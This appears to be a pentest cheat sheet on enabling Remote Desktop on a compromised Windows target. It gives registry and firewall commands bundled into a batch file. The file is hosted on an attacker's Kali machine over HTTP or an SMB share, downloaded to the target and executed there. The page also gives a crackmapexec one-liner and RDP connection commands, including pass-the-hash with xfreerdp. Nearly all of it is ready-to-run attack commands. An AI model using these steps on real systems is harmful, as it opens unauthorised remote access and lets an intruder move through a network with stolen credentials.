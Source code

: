 # Enable Remote Desktop (RDP) on the target via an elevated shell

You will need an elevated shell to enable RDP

Save the following commands on a .bat file - ex.: `enablerdp.bat`

```cmd
reg add "hklm\system\currentControlSet\Control\Terminal Server" /v "AllowTSConnections" /t REG_DWORD /d 0x1 /f
reg add "hklm\system\currentControlSet\Control\Terminal Server" /v "fDenyTSConnections" /t REG_DWORD /d 0x0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fAllowToGetHelp /t REG_DWORD /d 1 /f
netsh advfirewall set rule group="remote administration" new enable="yes"
netsh advfirewall firewall set rule group="remote administration" new enable=yes
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes profile=domain
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes profile=private
netsh firewall add portopening TCP 3389 "Remote Desktop"
netsh firewall set service RemoteDesktop enable
netsh firewall set service RemoteDesktop enable profile=ALL
netsh firewall set service RemoteAdmin enable
sc config TermService start= auto
net start Termservice
```

## HTTP

Start hosting the file on a HTTP server

```bash
cd /usr/share/windows-resources/binaries/
sudo python -m http.server 80
```

On the target, copy the file on PowerShell and execute it.

```powershell
cd C:\Temp\
Invoke-WebRequest -Uri 'http://<Kali_IP>/enablerdp.bat' -OutFile C:\Temp\enablerdp.bat
cmd
enablerdp.bat
```

## SMB

Start hosting the file on a SMB share.

```bash
cd /usr/share/windows-resources/binaries/
impacket-smbserver share $(pwd) -smb2support
```

On the target copy the file and execute it.

```cmd
xcopy \\<Kali_IP>\share\enablerdp.bat C:\Temp\
C:\Temp\enablerdp.bat
```

OR

```bash
crackmapexec smb <Target_IP> -u '<username>' -p '<password>' -M rdp -o ACTION=enable
```

- I am not sure if this really works

Now, try to access it

```bash
rdesktop <Target_IP> -d '<DOMAIN>' -u '<User>' -p '<Pwd>'


rdesktop <Target_IP> -d '<DOMAIN>' -u '<User>' -p '<Pwd>' -r disk:kali=/home/kali
```

OR

```bash
xfreerdp /v:<Target_IP> /d:<DOMAIN> /u:<User> /p:<Pwd>


xfreerdp /v:<Target_IP> /d:<DOMAIN> /u:<User> /pth:<HASH>
```
